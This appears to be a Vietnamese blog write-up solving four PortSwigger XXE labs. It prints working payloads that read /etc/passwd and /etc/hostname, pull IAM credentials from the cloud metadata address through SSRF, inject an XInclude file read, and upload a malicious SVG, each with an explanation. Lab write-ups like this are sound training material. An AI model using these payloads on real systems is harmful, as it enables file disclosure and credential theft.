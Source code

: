 ```yaml
---
title: "[PortSwigger Lab] - XML External Entity Injection (XXE)"
description: Solution of XML External Entity Injection (XXE) Lab
date: 2025-06-10 17:18:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, xxe]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-10-portswigger-lab-xxe/xxe.png
    alt: XML External Entity Injection (XXE)
---
```


## Introduction
---
### **XML External Entity Injection (XXE)**
**XML External Entity Injection (XXE)** là một lỗ hổng bảo mật trên web xảy ra khi một ứng dụng xử lý dữ liệu **XML** mà không cấu hình đúng cách trình phân tích cú pháp **XML (XML parser)**. Điều này cho phép kẻ tấn công chèn và thực thi các thực thể bên ngoài **(external entities)** độc hại vào dữ liệu **XML**.

### Types of XXE attacks

| **Loại tấn công**                              | **Mô tả**                                                                                                                              |
| ---------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| **XXE đọc file nội bộ (File Disclosure)**      | Đọc nội dung các file nhạy cảm trên hệ thống máy chủ, ví dụ: `/etc/passwd`, cấu hình ứng dụng, key bí mật,...                          |
| **XXE gây SSRF (Server-Side Request Forgery)** | Gửi yêu cầu từ máy chủ đến các địa chỉ nội bộ hoặc dịch vụ khác mà máy chủ có thể truy cập (VD: `http://localhost:8000/internal-api`). |
| **Blind XXE - Exfiltration qua kênh phụ**      | Dữ liệu không hiển thị trực tiếp trong phản hồi, nhưng được gửi âm thầm đến máy chủ do kẻ tấn công kiểm soát thông qua HTTP, FTP,...   |
| **Blind XXE - Rò rỉ dữ liệu qua lỗi**          | Gây ra lỗi trong quá trình phân tích XML, khiến dữ liệu nhạy cảm bị rò rỉ qua thông báo lỗi trả về từ ứng dụng.                        |

## Solve **XML External Entity Injection (XXE)** Lab
---
### Lab: Exploiting XXE using external entities to retrieve files
#### Exploit
- Đến 1 blog bất kỳ và sử dụng chức năng **check stock**
- Gửi request **check stock** đến **Repeater**
- Thay đổi payload thành

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<stockCheck>
    <productId>1;&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```
- Ta nhận được nội dung của `/etc/passwd`

```text
"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```
#### How it work?
- Ứng dụng nhận request
- **XML Parser** tìm thấy dòng `<!DOCTYPE foo ...>` nên bật chế độ **Document Type Definition (DTD)** — định nghĩa cấu trúc của tài liệu XML
- Gặp khai báo `<!ENTITY xxe SYSTEM "/etc/passwd">` nên đi tải tệp `/etc/passwd` từ chính server gán cho thực thể `xxe`. 
- Sau đó, khi parser thấy chuỗi `&xxe;` bên trong `<productId>`, nó thay thế token đó bằng nội dung tệp vừa đọc.
- XML sau khi mở rộng entity: **Parser** tạo ra tài liệu nội bộ: xml 

```xml
<stockCheck>
    <productId>1;root:x:0:0:root:/root:/bin/bash …</productId> <storeId>1</storeId> 
</stockCheck>
```
- `Framework` cố map `<productId>` vào thuộc tính **int** productId hoặc **Long** productId của class `StockCheckRequest`.
- Chuyển đổi chuỗi `"1;root:x:0:0:..."` sang số nguyên thất bại => ứng dụng trả lỗi là nội dung chuyển đổi về cho người dùng

### Lab: Exploiting XXE to perform SSRF attacks
- Đến 1 blog bất kỳ và sử dụng chức năng **check stock**
- Gửi request **check stock** đến **Repeater**
- Thay đổi payload thành:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
    <productId>1; &xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin-role
```
- Đây là một địa chỉ IP được sử dụng bởi các nhà cung cấp dịch vụ đám mây, chẳng hạn như **AWS**, **Azure** và **Google Cloud**, để cung cấp siêu dữ liệu về các trường hợp.

### Lab: Exploiting XInclude to retrieve files
#### Analysis
- Đến 1 blog bất kỳ và sử dụng chức năng **check stock**
- Quan sát body, ta chỉ thấy `productId=1&storeId=1`, không thể thao túng **DOCTYPE** được:

```xml
<?xml version="1.0"?>
<!DOCTYPE root_element [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root_element>
    <data>content here</data>
</root_element>
```
- Quy tắc vị trí **DOCTYPE**:
    - Sau **XML declaration** `(<?xml version="1.0"?>)`
    - Trước **root element**
    - Không thể đặt ở giữa hoặc cuối **document**
- Ý tưởng: Không cần thao túng **DOCTYPE**, sử dụng **XInclude** là một phần của **XML specification** cho phép xây dựng **XML document** từ các **sub-documents**.

#### Exploit
- Gửi request **check stock** đến **Repeater**
- Thay đổi payload thành:

```xml
productId=1;<xi:include parse="text" href="/etc/passwd" xmlns:xi="http://www.w3.org/2001/XInclude"/>&storeId=1
```
- `xmlns:xi="http://www.w3.org/2001/XInclude"`: Khai báo **XInclude namespace**
- `xi:include`: Element để **include** file
- `parse="text"`: **Parse** nội dung như **plain text**
    - Mặc định `parse="xml"`
    - `/etc/paswd` ở dạng **text** nên chuyển `parse="text"` để đọc
- `href="/etc/passwd"`: Đường dẫn đến **file** cần đọc

### Lab: Exploiting XXE via image file upload
- Ý tưởng upload file có định dạng **xml** để kích hoạt **parser xml**
- Đến 1 blog bất kỳ và thực hiện **comment**, up 1 file svg với kích thước nhỏ
- Sửa đổi nội dung payload 

```http
POST /post/comment HTTP/2
Host: 0ad300dd04bbcf8180c949a5001400d3.web-security-academy.net

...

------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="csrf"

SSuEc7ucI0xjZe5QBzhWN1omE2ukkdZd
------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="postId"

2
------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="comment"

a
------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="name"

a
------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="avatar"; filename="a.svg"
Content-Type: text/xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="200" height="200"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink">
  <text x="10" y="20">&xxe;</text>
</svg>

------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="email"

a@gmail.com
------WebKitFormBoundaryjBtoTJseBoFRQecm
Content-Disposition: form-data; name="website"

http://a.com
------WebKitFormBoundaryjBtoTJseBoFRQecm--
```

- Vì **SVG** file cũng thuộc định dạng `xml` nên ta có thể tạo như trên
- Tạo ra **xxe** lấy nội dung của `file:///etc/hostname`
- Sau đó hiển thị nó trong file **SVG** người dùng có thể thấy được thông qua `&xxe;`
- Gửi lại request và mở file **/post/comment/avatars?filename=1.png** trong tab mới
- Nội dung hiển thị trong ảnh là nội dung của `/etc/hostname`
- Submit solution


---
Goodluck! 🍀🍀🍀 